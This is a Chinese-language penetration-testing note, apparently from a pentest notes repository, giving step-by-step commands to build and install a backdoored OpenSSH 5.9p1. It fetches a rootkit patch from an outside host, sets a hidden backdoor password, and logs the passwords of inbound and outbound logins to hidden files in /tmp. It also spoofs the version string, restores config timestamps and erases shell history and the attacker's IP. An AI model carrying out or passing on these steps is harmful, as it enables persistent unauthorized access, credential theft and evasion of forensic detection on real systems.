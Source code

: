 	下载
	http://ftp.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz
	http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz
	备份配置文件
	>mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
	>mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old
	安装关联文件
	centos
	>yum install -y openssl openssl-devel pam-devel zlib zlib-devel
	Ubuntu
	>apt-get install -y openssl libssl-dev libpam0g-dev
	>tar zxvf openssh-5.9p1.tar.gz 
	>tar zxvf 0x06-openssh-5.9p1.patch.tar.gz 
	>cp openssh-5.9p1.patch/sshbd5.9p1.diff openssh-5.9p1/
	>cd openssh-5.9p1
	>patch <sshbd5.9p1.diff
	>vim includes.h
![image](/assets/Pentest_Note/master/img/575.png)
	
	/tmp/ilog记录登录到本机的用户密码
	/tmp/olog记录本机登录其他机器的账户密码
	日志文件前可以加个.隐藏起来
	SECRETPW是连接后门密码
	查看当前版本
	>ssh -V
![image](/assets/Pentest_Note/master/img/576.png)

	修改version.h改为当前版本
![image](/assets/Pentest_Note/master/img/577.png)

	编译安装
	Centos7
	>./configure --prefix=/usr/ --sysconfdir=/etc/ssh/ --with-pam --with-kerberos5
	>make clean
	>make && make install
	>systemctl restart sshd.service
	ubuntu
	>./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam
	>make clean
	>make&&make install
	重启服务，修改文件日志
	>touch -r/etc/ssh/ssh_config.old /etc/ssh/ssh_config
	>touch -r/etc/ssh/sshd_config.old /etc/ssh/sshd_config
![image](/assets/Pentest_Note/master/img/578.png)
![image](/assets/Pentest_Note/master/img/579.png)

	清除痕迹
	>export HISTFILE=/dev/null
	>export HISTSIZE=0
	>export HISTFILESIZE=0
	>sed -i 's/192.168.0.1/127.0.0.1/g' /root/.bash_history
